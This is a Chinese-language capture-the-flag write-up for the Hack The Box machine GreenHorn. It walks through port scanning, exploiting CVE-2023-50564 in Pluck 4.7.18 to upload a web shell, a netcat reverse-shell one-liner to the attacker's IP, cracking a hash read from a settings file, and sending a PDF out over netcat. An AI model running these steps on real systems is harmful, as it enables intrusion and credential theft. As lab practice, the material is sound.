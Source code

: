 # 服务
```
┌──(root㉿kali)-[~]
└─# nmap -Pn -p- 10.10.11.25   
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-22 05:01 EDT
Stats: 0:16:20 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 66.59% done; ETC: 05:25 (0:08:12 remaining)
Stats: 0:28:22 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 95.55% done; ETC: 05:31 (0:01:19 remaining)
Nmap scan report for greenhorn.htb (10.10.11.25)
Host is up (0.43s latency).
Not shown: 65452 closed tcp ports (reset), 61 filtered tcp ports (host-unreach), 19 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp

Nmap done: 1 IP address (1 host up) scanned in 1808.90 seconds


```

写host
```
echo "10.10.11.25 greenhorn.htb" >> /etc/hosts
```

![](GreenHorn_files/1.jpg)

这个页面暴露出软件版本：pluck 4.7.18


使用[CVE-2023-50564](https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC)

修改

shell.php
![](GreenHorn_files/2.jpg)

poc.py
![](GreenHorn_files/3.jpg)

拿到shell

![](GreenHorn_files/4.jpg)


ZIP file path: ```/root/htb/GreenHorn/CVE-2023-50564_Pluck-v4.7.18_PoC-main/shell.zip```

tty，返回一个稳定shell
```
/bin/sh -i

rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.19 443 >/tmp/f
```

找到一个密码：
```
cat /var/www/html/pluck/data/inc/functions.admin.php | grep password

$ cd /var/www/html/pluck/data/
$ cd settings
$ cat pass.php
$ <?php
$ww = 'd5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163';
?>
```

拿去在线解密是：iloveyou1


就是用户junior的密码：
```
$ su junior
Password: iloveyou1
id
uid=1000(junior) gid=1000(junior) groups=1000(junior)

```

传输桌面的Using OpenVAS.pdf文件
```
n	c -lvp 139 > 'Using OpenVAS.pdf'
nc 10.10.16.19 139 < 'Using OpenVAS.pdf'
```

机器安装了OpenVAS

![](GreenHorn_files/5.jpg)


尝试执行
```
junior@greenhorn:~$ sudo /usr/sbin/openvas
sudo /usr/sbin/openvas
[sudo] password for junior: iloveyou1

junior is not in the sudoers file.  This incident will be reported.
junior@greenhorn:~$ 

```